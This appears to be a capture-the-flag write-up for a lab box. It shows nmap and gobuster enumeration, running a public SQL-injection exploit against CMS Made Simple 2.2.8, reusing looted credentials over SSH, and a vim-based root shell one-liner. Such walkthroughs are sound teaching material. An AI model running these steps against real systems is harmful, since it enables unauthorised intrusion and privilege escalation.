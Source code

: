 # Simple CTF -- CTF Writeup -- Enumeration, Exploitation, and Privilege Escalation

## Target

- IP Address: `10.201.47.23`

---

## Nmap Enumeration

Initial scan to identify open ports:

```bash
nmap -sS 10.201.47.23
```

**Results:**

- 21/tcp → FTP (vsftpd 3.0.3)
- 80/tcp → HTTP (Apache 2.4.18)
- 2222/tcp → SSH (OpenSSH, non-standard port)

Follow-up scan for service details:

```bash
nmap -sC -sV -p 21,80 10.201.47.23
```

**Findings:**

- FTP allows **anonymous login**
- HTTP has a `/robots.txt` with hidden entries
- Apache default page is displayed

---

## Web Enumeration

Used Gobuster for directory brute-forcing:

```bash
gobuster dir -u http://10.201.47.23 -w /usr/share/wordlists/dirb/common.txt
```

**Interesting directories:**

- `/robots.txt`
- `/simple` → Running CMS Made Simple v2.2.8

Browsing `/simple` showed a login page and CMS version 2.2.8.

---

## Exploitation

CMS Made Simple v2.2.8 is vulnerable to **SQL Injection** ([CVE-2019-9053](https://www.exploit-db.com/exploits/46635)).

Ran the public exploit:

```bash
python3 exploit.py -u http://10.201.47.23/simple/
```

**Looted credentials:**

- Salt: `1dac0d92e9fa6bb2`
- Username: `mitch`
- Email: `admin@admin.com`
- Hash: `0c01f4468bd75d7a84c7eb73846e8d96`
- Password: `secret`

These credentials work for the CMS panel but deeper access is required.

---

## FTP Access

Logged in with anonymous FTP:

```bash
ftp 10.201.47.23
```

Inside the `pub` directory, found `ForMitch.txt`:

```
Dammit man... you're the worst dev I've seen. You set the same pass for the system user...
```

This hint confirms that the **system user `mitch` uses the same password (`secret`)**.

---

## SSH Access

SSH is running on port `2222`:

```bash
ssh mitch@10.201.47.23 -p 2222
```

Login successful with credentials:

```
Username: mitch
Password: secret
```

---

## Privilege Escalation

Checked for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Ran **LinPEAS** for further enumeration.  

Identified `/usr/bin/vim` as a potential escalation vector.  
According to [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#suid), root shell can be obtained by:

```bash
sudo vim -c ':!/bin/sh'
```

---

## Root Access

Successfully escalated privileges to root.  

Final flag located at:

```bash
/root/root.txt
```

---

## Key Takeaways

- Always enumerate thoroughly; FTP anonymous access revealed critical hints.
- Research CMS versions for known exploits.
- Weak developer practices (reusing credentials) enable lateral movement.
- GTFOBins is invaluable for privilege escalation.

